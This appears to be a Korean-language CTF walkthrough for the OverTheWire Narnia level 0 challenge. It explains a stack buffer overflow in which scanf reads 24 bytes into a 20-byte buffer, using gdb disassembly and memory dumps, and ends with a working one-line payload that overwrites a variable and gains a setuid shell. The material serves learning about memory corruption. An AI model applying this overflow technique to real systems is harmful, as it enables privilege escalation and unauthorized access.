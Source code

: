 ## 1. 문제 확인
- ID : narnia0
- Target : /narnia/narnia0
- Flag : /etc/narnia_pass/narnia1
```
narnia0@gibson:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: abcde
buf: abcde
val: 0x41414141
WAY OFF!!!!
narnia0@gibson:/narnia$ 
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
- 사용자 입력 값을 통해 val의 값인 0x41414141 을 0xdeadbeef 로 강제 변경하면 쉘(/bin/sh)이 실행됨
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
### 2.2 Code 분석
#### 2.2.1 main()
- gdb로 열어서 메인함수의 disassemble 코드를 확인해보면 [ebp-0x8] 위치에 0x41414141 값이 저장됨
```
	0x080491cd <+7>:     mov    DWORD PTR [ebp-0x8],0x41414141
```
- [ebp-0x1c] 위치에 사용자 입력값을 저장함
```
	0x080491ee <+40>:    lea    eax,[ebp-0x1c]
	0x080491f1 <+43>:    push   eax
	0x080491f2 <+44>:    push   0x804a051
	0x080491f7 <+49>:    call   0x80490a0 <__isoc99_scanf@plt>
```
- ebp-0x8 위치에 있는 값과 0xdeadbeef 값을 비교하여 일치하면 uid를 재설정하여 system함수(쉘)를 실행함
```
	0x08049220 <+90>:    cmp    DWORD PTR [ebp-0x8],0xdeadbeef
   	0x08049227 <+97>:    jne    0x804924e <main+136>
   	0x08049229 <+99>:    call   0x8049050 <geteuid@plt>
   	0x0804922e <+104>:   mov    ebx,eax
   	0x08049230 <+106>:   call   0x8049050 <geteuid@plt>
   	0x08049235 <+111>:   push   ebx
   	0x08049236 <+112>:   push   eax
   	0x08049237 <+113>:   call   0x8049090 <setreuid@plt>
   	0x0804923c <+118>:   add    esp,0x8
   	0x0804923f <+121>:   push   0x804a06c
   	0x08049244 <+126>:   call   0x8049070 <system@plt>
```
- gdb로 프로그램을 실행하여 사용자 입력 후 [ebp-0x1c] 메모리 값을 확인해보면 20byte 이후 0x41414141 값이 위치함
```
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: abcde

	Breakpoint 2, 0x080491ff in main ()
	(gdb) x/20wx $ebp-0x1c
	0xffffd39c:     0x64636261      0x00000065      0x00000000      0x00000000
	0xffffd3ac:     0x00000000      0x41414141      0xf7fade34      0x00000000
	0xffffd3bc:     0xf7da1cb9      0x00000001      0xffffd474      0xffffd47c
	0xffffd3cc:     0xffffd3e0      0xf7fade34      0x080490dd      0x00000001
	0xffffd3dc:     0xffffd474      0xf7fade34      0xffffd47c      0xf7ffcb60
	(gdb)
```
- buf 사이즈가 20byte지만 최대 24byte 까지 입력받을 수 있으며, 24byte를 입력하면 0x41414141 데이터를 덮어쓸 수 있음
```
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: AAAAAAAAAAAAAAAAAAAABBBB

	Breakpoint 2, 0x080491ff in main ()
	(gdb) x/20wx $ebp-0x1c
	0xffffd39c:     0x41414141      0x41414141      0x41414141      0x41414141
	0xffffd3ac:     0x41414141      0x42424242      0xf7fade00      0x00000000
	0xffffd3bc:     0xf7da1cb9      0x00000001      0xffffd474      0xffffd47c
	0xffffd3cc:     0xffffd3e0      0xf7fade34      0x080490dd      0x00000001
	0xffffd3dc:     0xffffd474      0xf7fade34      0xffffd47c      0xf7ffcb60
	(gdb)
```

<br/><br/>
## 3. Exploit
- 20byte 문자와 0xdeadbeef(4byte) 입력 데이터를 만들고, 프로그램 실행 인자로 전달하면 쉘 획득
(※ cat 을 명령 셸에 두 번째 입력으로 전달하면 명령 셸이 열린 상태로 유지됨)
```
	narnia0@gibson:/narnia$ (echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde';cat;)|./narnia0
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ▒
	val: 0xdeadbeef
	id
	uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
```
